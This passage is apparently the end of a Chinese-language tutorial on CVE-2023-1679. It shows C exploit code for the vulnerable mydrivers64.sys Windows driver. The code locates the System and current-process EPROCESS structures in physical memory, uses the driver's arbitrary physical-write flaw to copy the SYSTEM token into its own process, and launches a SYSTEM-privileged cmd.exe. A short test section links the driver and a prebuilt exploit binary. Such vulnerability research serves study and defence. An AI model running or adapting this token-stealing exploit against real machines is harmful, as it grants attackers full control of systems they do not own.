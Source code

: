 ```c
                SystemEprocess = (DWORD64)read_address + offset;
                SystemToken = *(DWORD64*)(output + offset + TOKEN_OFFSET);
                if ((SystemToken & 0xffff000000000000) != 0xffff000000000000)
                {
                    SystemEprocess = 0;
                    SystemToken = 0;
                }
                else
                {
                    printf("System EPROCESS PA: %llx, System Token: %llx\n\n", SystemEprocess, SystemToken);
                }
            }

            // 透過 UniqeuProcessId 和 ImageFileName 檢查是不是當前 Process
            if (!TargetEprocess && *(DWORD64*)(output + offset + UNIQUE_PROCESS_ID_OFFSET) == GetCurrentProcessId() &&
                !memcmp((CHAR*)(output + offset + IMAGE_FILE_NAME_OFFSET), "CVE-2023-1679.exe", 14))
            {
                TargetEprocess = (DWORD64)read_address + offset;
                printf("Current Process EPROCESS PA: %llx\n\n", TargetEprocess);
            }
        }

        // 如果找到 System 和當前 Process 的 EPROCESS 的 PA 就跳出迴圈
        if (SystemEprocess && TargetEprocess)
            break;

        read_address = (PVOID)((DWORD64)read_address + 0x10000);
    }

    // 4. 利用任意寫的漏洞竄改當前 Process 的 EPROCESS Token 的物理記憶體
    WritePA_0x9C40A108((PVOID)((DWORD64)TargetEprocess + TOKEN_OFFSET), 8, SystemToken);

    // 5. 彈出有 system 權限的 cmd
    system("cmd.exe");
    return 0;
}
```


## 測試
開啟 VM 載入 [mydrivers64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1679/bin/mydrivers64.sys)，接著執行 [CVE-2023-1679.exe](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1679/bin/CVE-2023-1679.exe)，攻擊過程可能要等一小段時間，之後就會跳出 system 權限的 cmd。

![](test.png)
